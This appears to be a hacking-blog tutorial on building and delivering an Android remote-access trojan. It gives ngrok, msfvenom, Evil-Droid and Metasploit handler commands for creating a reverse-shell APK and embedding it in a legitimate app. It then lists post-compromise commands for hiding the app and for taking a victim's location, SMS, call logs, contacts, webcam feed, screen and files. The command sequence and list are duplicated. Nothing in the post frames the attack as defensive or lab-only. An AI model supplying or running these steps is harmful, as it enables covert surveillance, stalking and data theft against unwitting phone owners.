

Dark World
Stroming Your Brain, Not Enter Your Legs
Android Hacking is a process to to gain access of any android from anywhere. For this process you have create a client and a listener. There are two process, one is Creating Payload & Embeded Payload. The method is explained below....
At first open the QTerminal
$ ngrok tcp 4574
Now open a side window on QTerminal & Write the following command
$ msfvenom -p android/meterpreter/reverse_tcp LHOST=[ Enter Ngrok TCP Host] LPORT= [Enter_Ngrok_TCP_Port] AndroidWakeLock='true' R> /root/Desktop/trojan.apk
Now trojan is build on the Desktop & named with 'trojan.apk' Now you have to create the listener to read session and make operation. Open Another side window on QTerminal and write the command.
$ msfconsole
$ clear
$ use exploit/multi/handler
$ set payload android/meterpreter/reverse_tcp
$ set LHOST localhost
$ set LPORT 4574
$ exploit
After it the QTerminal shows that it bind with tcp. Now excute the operational command to get information.
Commands
hide_app_icon >>>>> To hide the trojan from victim's device
wakelock >>>>> To gain Wakelock
geolocate >>>>> To get the location of victim's device
send_sms -d [mobile no.] -t "message" >>>>> To send message from victim's mobile
dump_calllog >>>>> To get incoming & outgoing call details
dump_sms >>>>> To get incoming & outgoing sms details
dump_contacts >>>>> To get all contacts from victim's mobile.
webcam_list >>>>> Show the webcam list
webcam_snap >>>>> To take a selfie
webcam_share >>>>> To stream video from victim's mobile
screenshare >>>>> See the target device screen.
cd /sdcard >>>>> To access file manager
download [file_name] >>>>>> To download file
upload [file_name] >>>>>> To upload file to victim's device.
$ ngrok tcp 4574
Now open a side window on QTerminal & Write the following command
$ git clone git clone https://github.com/M4sc3r4n0/Evil-Droid.git
$ cd Evil-Droid
$ chmod +x evildroid
$./evildroid
Now enter LHOST & LPORT as Ngrok Host & Port Name as widget instructed. Now select payload option android/meterpreter/reverse_tcp and predownloaded APK and then finish.
Now the embeded apk trojan build. Now time to listen...
$ msfconsole
$ clear
$ use exploit/multi/handler
$ set payload android/meterpreter/reverse_tcp
$ set LHOST localhost
$ set LPORT 4574
$ exploit
After it the QTerminal shows that it bind with tcp. Now excute the operational command to get information.
Commands
hide_app_icon >>>>> To hide the trojan from victim's device
wakelock >>>>> To gain Wakelock
geolocate >>>>> To get the location of victim's device
send_sms -d [mobile no.] -t "message" >>>>> To send message from victim's mobile
dump_calllog >>>>> To get incoming & outgoing call details
dump_sms >>>>> To get incoming & outgoing sms details
dump_contacts >>>>> To get all contacts from victim's mobile.
webcam_list >>>>> Show the webcam list
webcam_snap >>>>> To take a selfie
webcam_share >>>>> To stream video from victim's mobile
screenshare >>>>> See the target device screen.
cd /sdcard >>>>> To access file manager
download [file_name] >>>>>> To download file
upload [file_name] >>>>>> To upload file to victim's device.
help >>>>>> To know all active commands.
